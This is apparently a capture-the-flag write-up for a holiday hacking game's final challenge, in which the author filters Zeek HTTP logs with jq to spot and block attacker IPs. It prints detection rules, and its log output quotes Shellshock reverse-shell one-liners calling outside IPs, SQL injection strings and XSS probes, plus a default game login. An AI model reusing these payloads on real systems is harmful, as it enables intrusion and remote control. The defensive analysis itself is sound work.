> If you find a log entry that definitely looks bad, try pivoting off other unusual attributes in that entry to find more bad IPs.
> The sleigh's machine learning device (SRF) needs most of the malicious IPs blocked in order to calculate a good route.
> Try not to block many legitimate weather station IPs as that could also cause route calculation failure.
> Remember, when looking at JSON data, `jq` is the tool for you!


Sleigh Route Finder API:  
[https://srf.elfu.org/](https://srf.elfu.org/)


Zeek logs:  
[https://downloads.elfu.org/http.log.gz](https://downloads.elfu.org/http.log.gz)


Location:  
sleighshop (Sleigh Workshop)


#### Solution
We can search through the logfile using JQ. For example, to select all the POST requests we could do:
```
polle@polle-pc: $ cat http.log | jq '.[] | select (.method | contains("POST"))'
```

The first thing we need to accomplish is to get access to the Sleigh Route Finder API. We are prompted with a login form and we need username and password.


We search for credentials in the zeek log file. After some searching we decide to list all of the endpoints that responded ok (statuscode = 200) and list their endpoints

```
polle@polle-pc: $ cat http.log | jq '.[] | select (.status_code == 200) | .uri' | sort | uniq
<< Output redacted for brevity >>
"/js/weathermap.js"
"/logout"
"/logout?id=1' UNION/**/SELECT 1223209983/*"
"/logout?id=1' UNION SELECT null,null,'autosc','autoscan',null,null,null,null,null,null,null,null/*"
"/logout?id=<script>alert(1400620032)</script>&ref_a=avdsscanning\\\"><script>alert(1536286186)</script>"
"/map.html"
"/README.md"
"/santa.html"
"/vendor/bootstrap/js/bootstrap.bundle.min.js"
"/vendor/fontawesome-free/css/all.min.css"
"/vendor/fontawesome-free/webfonts/fa-solid-900.woff2"
"/vendor/jquery-easing/jquery.easing.min.js"
"/vendor/jquery/jquery.min.js"
```

We see here the file `README.md`. This caught our eye, because one of the previous challenges had us decrypt a [redacted document](relevant_files/ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf). This document had a comment inside it:
> The default login credentials should be changed on startup and can be found in the readme in
> The ElfU Research Labs git repository.

So we definitely want to check this out!
We browse to
```
[https://srf.elfu.org/README.md](https://srf.elfu.org/README.md)
```
and find the credentials we were looking for:


> You can login using the default admin pass:
> `admin 924158F9522B3744F5FCD4D10FAC4356`

Excellent! Now we can access the GUI and the real challenge can begin.


We find an API document pdf as soon as we log in. This document describes the correct way to access the API.

[API docs](relevant_files/apidocs.pdf)

We want to search for bad actors. We will try to find:
- SQLi
- XSS
- Shellcode
- LFI

We will create a script to do this filtering for us. But first we will prepare our data a little bit
```
polle@polle-pc: $ cat http.log | jq '.[]' > new.log
polle@polle-pc: $ mv new.log http.log
```

We can quickly create some rules to search for bad actors in the logs.
We want to search for the attack scenarios described by Wunorse Openslae.
```
# SQLi
jq '. | select (.username | contains("'"'"'")) '
jq '. | select (.uri | contains("'"'"'")) '
jq '. | select (.user_agent | contains("'"'"'")) '
# XSS
jq '. | select (.uri | contains("<")) '
jq '. | select (.host | contains("<")) '
# LFI
jq '. | select (."uri" | contains("pass")) '
# Shellshock
jq '. | select (."user_agent" | contains(":; };")) '
```

If we count the number of IPs that have made requests conforming to these rules we find 75. We need to find about 100.
As Wunorse has told us, we then need to pivot on one of the fields.
We will select the user agents that are used by these actors and see if any other requests use the same user agents.

We can now start creating a script that uses JQ to find bad actors. The script will perform the following function:
- Grab all IPs for the above ruleset.
- Select all requests coming from those IPs and store them in a new zeek log file.
- Extract the user agents used by those malicious actors

You can find the full script [here](relevant_files/srf_filter_log.py)

```
polle@polle-pc: $ ./filter_log.py
[*] Starting filtering script.
[+] Removing all filter files
[+] Creating filter files
[*] Executing: cat http.log | jq '. | select (.username | contains("'"'"'")) | ."id.orig_h"' > filters/sql_injection_username.filter
[*] Executing: cat http.log | jq '. | select (.uri | contains("'"'"'")) | ."id.orig_h"' > filters/sql_injection_uri.filter
[*] Executing: cat http.log | jq '. | select (.user_agent | contains("'"'"'")) | ."id.orig_h"' > filters/sql_injection_agent.filter
[*] Executing: cat http.log | jq '. | select (.uri | contains("<")) | ."id.orig_h"' > filters/xss_uri.filter
[*] Executing: cat http.log | jq '. | select (.host | contains("<")) | ."id.orig_h"'> filters/xss_host.filter
[*] Executing: cat http.log | jq '. | select (."uri" | contains("pass")) | ."id.orig_h"' > filters/lfi_pass.filter
[*] Executing: cat http.log | jq '. | select (."user_agent" | contains(":; };")) | ."id.orig_h"' > filters/shell_shock.filter
[+] Loading list of bad ip addresses. Using all files with '.filter' extension
[*] Loading filter filters/xss_uri.filter
[*] Loading filter filters/sql_injection_uri.filter
[*] Loading filter filters/shell_shock.filter
[*] Loading filter filters/sql_injection_username.filter
[*] Loading filter filters/sql_injection_agent.filter
[*] Loading filter filters/lfi_pass.filter
[*] Loading filter filters/xss_host.filter
[+] Selecting all bad ips from file http.log and writing to output malicious_requests.log
[*] Removing all duplicate ips
[*] number of bad ips: 75
Filtering ip block 1 / 1
[*] Executing: cat http.log | jq ' . | select(."id.orig_h" | contains("56.5.47.137") or contains("19.235.69.221") or contains("69.221.145.150") or contains("42.191.112.181") or contains("48.66.193.176") or contains("49.161.8.58") or contains("84.147.231.129") or contains("44.74.106.131") or contains("106.93.213.219") or contains("42.103.246.250") or contains("2.230.60.70") or contains("10.155.246.29") or contains("225.191.220.138") or contains("75.73.228.192") or contains("249.34.9.16") or contains("27.88.56.114") or contains("238.143.78.114") or contains("121.7.186.163") or contains("106.132.195.153") or contains("129.121.121.48") or contains("190.245.228.38") or contains("34.129.179.28") or contains("135.32.99.116") or contains("2.240.116.254") or contains("45.239.232.245") or contains("31.254.228.4") or contains("220.132.33.81") or contains("83.0.8.119") or contains("150.45.133.97") or contains("229.229.189.246") or contains("227.110.45.126") or contains("33.132.98.193") or contains("84.185.44.166") or contains("254.140.181.172") or contains("150.50.77.238") or contains("68.115.251.76") or contains("118.196.230.170") or contains("173.37.160.150") or contains("81.14.204.154") or contains("135.203.243.43") or contains("186.28.46.179") or contains("13.39.153.254") or contains("111.81.145.191") or contains("0.216.249.31") or contains("52.39.201.107") or contains("102.143.16.184") or contains("230.246.50.221") or contains("131.186.145.73") or contains("253.182.102.55") or contains("1.185.21.112") or contains("229.133.163.235") or contains("194.143.151.224") or contains("23.49.177.78") or contains("75.215.214.65") or contains("223.149.180.133") or contains("211.229.3.254") or contains("250.51.219.47") or contains("187.178.169.123") or contains("180.57.20.247") or contains("116.116.98.205") or contains("9.206.212.33") or contains("79.198.89.109") or contains("25.80.197.172") or contains("193.228.194.36") or contains("169.242.54.5") or contains("28.169.41.122") or contains("233.74.78.199") or contains("132.45.187.177") or contains("61.110.82.125") or contains("65.153.114.120") or contains("123.127.233.97") or contains("95.166.116.45") or contains("80.244.147.207") or contains("168.66.108.62") or contains("200.75.228.240"))' >> malicious_requests.log
[+] Completed filtering of original file
[+] Creating list of all user agents used by malicious requests (file malicious_requests.log) and writing to file malicious_agents.log
[*] Executing: cat malicious_requests.log | jq '. | .user_agent' | sort -u > malicious_agents.log
```

We now have a file containing all the user agents used by malicious actors. We can see if other requests used the same user agents.

However first we need to prepare our data a little bit. We need to double escape all of the backslashes in the file:
```
polle@polle-pc: $ sed -i 's#\\#\\\\#g' malicious_agents.log
```
Now we can use that file in a bash for-loop to count the number of times each of these user agents is used.

```
polle@polle-pc: $ while read ua; do cat http.log | jq '. | select(."user_agent" == '"$ua"') | .user_agent'; done <malicious_agents.log | sort | uniq -c | sort -nr
     19 "Mozilla/4.0 (compatible; MSIE 5.13; Mac_PowerPC)"
     17 "Mozilla/5.0 (X11; U; Linux i686; it; rv:1.9.0.5) Gecko/2008121711 Ubuntu/9.04 (jaunty) Firefox/3.0.5"
     15 "Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US) AppleWebKit/530.5 (KHTML, like Gecko) Chrome/2.0.172.43 Safari/530.5"
     14 "Mozilla/5.0 (Windows; U; Windows NT 6.1; fr; rv:1.9.2.10) Gecko/20100914 Firefox/3.6.10 (.NET CLR 3.5.30729)"
     13 "Mozilla/5.0 (X11; Linux i686) AppleWebKit/534.30 (KHTML, like Gecko) Chrome/12.0.742.100 Safari/534.30"
     13 "Mozilla/5.0 (Windows; U; Windows NT 6.1; en-US; rv:1.9.2b5) Gecko/20091204 Firefox/3.6b5"
     13 "Mozilla/5.0 (Windows; U; Windows NT 5.1; de; rv:1.9b3) Gecko/2008020514 Opera 9.5"
     12 "Mozilla/5.0 (Windows; U; Windows NT 6.0; ru-RU) AppleWebKit/528.16 (KHTML, like Gecko) Version/4.0 Safari/528.16"
     11 "Opera/6.05 (Windows 2000; U)  [oc]"
     11 "Mozilla/5.0 (Windows; U; Windows NT 5.2; sk; rv:1.8.1.15) Gecko/20080623 Firefox/2.0.0.15"
     11 "Mozilla/5.0 (Macintosh; U; PPC Mac OS X 10_4_11; fr) AppleWebKit/525.18 (KHTML, like Gecko) Version/3.1.2 Safari/525.22"
     10 "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.8) Gecko/20071004 Firefox/2.0.0.8 (Debian-2.0.0.8-1)"
     10 "Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.4.15451"
     10 "Mozilla/5.0 (iPad; CPU OS 6_0 like Mac OS X) AppleWebKit/536.26 (KHTML, like Gecko) Version/6.0 Mobile/10A5355d Safari/8536.25"
      9 "Mozilla/5.0 (X11; U; Linux x86_64; de; rv:1.9.0.18) Gecko/2010021501 Ubuntu/9.04 (jaunty) Firefox/3.0.18"
      9 "Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.14) Gecko/20080419 Ubuntu/8.04 (hardy) Firefox/2.0.0.12 MEGAUPLOAD 1.0"
      5 "Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)"
      3 "1' UNION SELECT 1,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x6e,0x69,0x6e,0x67,,3,4,5,6,7,8 -- '"
      2 "Wget/1.9+cvs-stable (Red Hat modified)"
      2 "RookIE/1.0"
      2 "Opera/8.81 (Windows-NT 6.1; U; en)"
      2 "Mozilla/5.0 WinInet"
      2 "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731"
      2 "Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)"
      2 "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13"
      2 "Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0"
      2 "Mozilla/5.0 (Windows NT 5.1 ; v.)"
      2 "Mozilla/5.0 (Windows NT 10.0;Win64;x64)"
      2 "Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)"
      2 "Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)"
      2 "Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N"
      2 "Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)"
      2 "Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)"
      2 "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)"
      2 "Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)"
      2 "Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )"
      2 "Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)"
      2 "Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6."
      2 "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)"
      2 "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)"
      2 "Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)"
      2 "Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)"
      2 "Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1"
      2 "Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)"
      2 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)"
      2 "Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)"
      2 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)"
      2 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR  1.1.4322)"
      2 "Mozilla/4.0 (compatible MSIE 5.0;Windows_98)"
      2 "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)"
      2 "Mozilla/4.0 (compatible; Metasploit RSPEC)"
      2 "HttpBrowser/1.0"
      2 "CholTBAgent"
      1 "() { :; }; /usr/bin/ruby -rsocket -e'f=TCPSocket.open(\"227.110.45.126\",43870).to_i;exec sprintf(\"/bin/sh -i <&%d >&%d 2>&%d\",f,f,f)'"
      1 "() { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"150.45.133.97\",54611));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os
.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
      1 "() { :; }; /usr/bin/php -r '$sock=fsockopen(\"229.229.189.246\",62570);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
      1 "() { :; }; /usr/bin/perl -e 'use Socket;$i=\"83.0.8.119\";$p=57432;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDO
UT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};'"
      1 "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12"
      1 "Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30"
      1 "Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36"
      1 "Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36"
      1 "Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19"
      1 "Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1"
      1 "Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1"
      1 "() { :; }; /bin/bash -i >& /dev/tcp/31.254.228.4/48051 0>&1"
      1 "() { :; }; /bin/bash -c '/bin/nc 55535 220.132.33.81 -e /bin/bash'"
      1 "1' UNION/**/SELECT/**/994320606,1,1,1,1,1,1,1/*&blogId=1"
      1 "1' UNION SELECT -1,'autosc','test','O:8:\\\"stdClass\\\":3:{s:3:\\\"mod\\\";s:15:\\\"resourcesmodule\\\";s:3:\\\"src\\\";s:20:\\\"@random41940ceb78dbb\\\";s:3:\\\"int\\\";s:0:\\\"\\\";}',7,0,0,0,
0,0,0 /*"
      1 "1' UNION SELECT 1729540636,concat(0x61,0x76,0x64,0x73,0x73,0x63,0x61,0x6e,0x65,0x72, --"
      1 "1' UNION SELECT '1','2','automatedscanning','1233627891','5'/*"
      1 "1' UNION/**/SELECT/**/1,2,434635502,4/*&blog=1"
      1 "1' UNION SELECT 1,1409605378,1,1,1,1,1,1,1,1/*&blogId=1"
```
We see that we have about 300 requests using various diffent user agents. This is clearly too many.
```
polle@polle-pc: $ while read ua; do cat http.log | jq '. | select(."user_agent" == '"$ua"') | .user_agent'; done <malicious_agents.log | wc -l
294
```
However, upon closer inspection, we do notice that some of these user agents seem more 'normal' than others.
All of the user agents that are used 9 or more times seem like very legit user agents. The others however, much less so.
We take a gamble here and remove those seemingly legitimate user agents from our file `malicious_agents.log`.

We now repeat the previous step and look at how many requests remain:
```
polle@polle-pc: $ while read ua; do cat http.log | jq '. | select(."user_agent" == '"$ua"') | .user_agent'; done <malicious_agents.log | wc -l
97
```
Great, that seems much closer to our target! lets write those entries to our final log file and extract the IPs from it:
```
polle@polle-pc: $ while read ua; do cat http.log | jq '. | select(."user_agent" == '"$ua"')'; done <malicious_agents.log > all_malicious_req.log
polle@polle-pc: $ cat all_malicious_req.log | jq '."id.orig_h"' > malicious_ips
polle@polle-pc: $ tr '\n' ',' < malicious_ips | sed 's/"//g' > final_ips
```

We can now just copy the contents of `final_ips` and paste it in the SRF firewall.


We submit them by selecting the `DENY` option and...


We did it! We completed the final challenge!


#### Code
RID:0807198508261964


### Ending
Upon submitting the final code, a door opens and allows us access to the bell tower.


Completing the dialog with all three NPCs here will complete the game and roll the credits.

NPC: Santa
> You did it!  Thank you!  You uncovered the sinister plot to destroy the holiday season!
> Through your diligent efforts, we’ve brought the Tooth Fairy to justice and saved the holidays!
> Ho Ho Ho!
> The more I laugh, the more I fill with glee.
> And the more the glee,
> The more I'm a merrier me!
> Merry Christmas and Happy Holidays.


NPC: The Tooth Fairy
> You foiled my dastardly plan!  I’m ruined!
> And I would have gotten away with it too, if it weren't for you meddling kids!


NPC: Krampus
> Congratulations on a job well done!
> Oh, by the way, I won the Frido Sleigh contest.
> I got 31.8% of the prizes, though I'll have to figure that out.
> ...

Credits:


One last thing we notice however, is that we can expect more naughty interference next year. We spot a letter in the corner of the bell tower.
Reading it does not bode well for the 2020 holiday season...


I hope you enjoyed reading my writeup. A massive thanks to the SANS team for creating such amazing challenges every year.
It has truly been a blast! See you all next year!

> Merry Christmas and a Happy new year
> - Polle

-----------------------------
## Bonus

I might add some bonus content here later. Things like bruteforcing the keypad and the bitting machine.
For now I will enjoy the holiday season myself!
